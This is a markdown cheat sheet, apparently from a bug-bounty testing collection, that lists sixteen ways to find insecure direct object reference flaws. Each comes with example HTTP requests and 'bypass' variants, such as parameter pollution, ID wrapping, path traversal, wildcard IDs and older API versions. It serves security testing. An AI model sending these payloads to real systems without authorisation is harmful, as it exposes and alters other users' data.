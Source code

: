 # Insecure Direct Object Reference (IDOR)

## **Introduction**
IDOR stands for Insecure Direct Object Reference is a security vulnerability in which a user is able to access and make changes to data of any other user present in the system.

## **How to Find**
1. Add parameters onto the endpoints for example, if there was
```
GET /api/v1/getuser
[...]
```
Try this to bypass
```
GET /api/v1/getuser?id=1234
[...]
```

2. HTTP Parameter pollution
```
POST /api/get_profile
[...]
user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint
```
GET /v2/GetData/1234
[...]
```
Try this to bypass
```
GET /v2/GetData/1234.json
[...]
```

4. Test on outdated API Versions
```
POST /v2/GetData
[...]
id=123
```
Try this to bypass
```
POST /v1/GetData
[...]
id=123
```

5. Wrap the ID with an array.
```
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile
[...]
{"id":[111]}
```

6. Wrap the ID with a JSON object
```
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile
[...]
{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution
```
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc
```
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```
dmljdGltQG1haWwuY29t => victim@mail.com

9. If the website using graphql, try to find IDOR using graphql!
```
GET /graphql
[...]
```
```
GET /graphql.php?query=
[...]
```

10.  MFLAC (Missing Function Level Access Control)
```
GET /admin/profile
```
Try this to bypass
```
GET /ADMIN/profile
```

11. Try to swap uuid with number
```
GET /file?id=90ri2-xozifke-29ikedaw0d
```
Try this to bypass
```
GET /file?id=302
```

12. Change HTTP Method
```
GET /api/v1/users/profile/111
```
Try this to bypass
```
POST /api/v1/users/profile/111
```

13. Path traversal
```
GET /api/v1/users/profile/victim_id
```
Try this to bypass
```
GET /api/v1/users/profile/my_id/../victim_id
```

14. Change request content type
```
Content-type: application/xml
```
Try this to bypass
```
Content-type: application/json
```

15. Send wildcard instead of ID
```
GET /api/users/111
```
Try this to bypass
```
GET /api/users/*
```

16. Try google dorking to find new endpoint

Reference: 
- [@swaysThinking](https://twitter.com/swaysThinking) and other medium writeup
